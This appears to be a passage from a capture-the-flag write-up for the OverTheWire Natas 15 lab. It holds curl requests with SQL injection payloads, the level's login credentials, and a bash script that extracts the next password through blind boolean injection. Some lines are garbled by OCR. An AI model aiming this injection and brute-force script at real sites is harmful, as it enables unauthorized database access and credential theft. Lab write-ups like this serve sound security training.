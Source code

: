 ```
</form>
<?php } ?>
```


```
abs@MacBookPro OverTheWire % curl "natas15.natas.labs.overthewire.org/index.php?debug=1" -u natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx -s -F "username=natas16"
...
<h1>natas15</h1>
<div id="content">
Executing query: SELECT * from users where username="natas16"<br>This user exists.<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```



```
abs@MacBookPro OverTheWire % curl "natas15.natas.labs.overthewire.org/index.php?debug=1" -u natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx -s -F "username=natas15\" OR 0=0 --\""
...
<h1>natas15</h1>
<div id="content">
Executing query: SELECT * from users where username="natas15" OR 0=0 --""<br>This user exists.<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

Brute-forcing the password:
```
#!/bin/bash

CHARS="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
PASS_LEN=32
URL="natas15.natas.labs.overthewire.org/index.php"
LOGIN="natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"
PASS=""

for pos in $(seq 1 $PASS_LEN); do
	for char in $(echo $CHARS | fold -w1); do
		OUT=$(curl $URL -u $LOGIN -s -F "username=natas16\" AND BINARY SUBSTRING(password,$pos,1)=\"$char\" -- \"" | grep "This user exists" | wc -l)
		if [ "$OUT" -eq 1 ]; then
			PASS+=$char
			echo "pass so far: $PASS"
			break
		fi
	done
done

echo "Password for natas16: $PASS"
```

```
abs@MacBookPro OverTheWire % chmod +x brute_force_natas15.sh s@MacBookPro OverTheWire % ./brute_force_natas15.sh 
Password for natas16: hpkjkyvilqctew33qmuxl6edvfmw4sgo
```
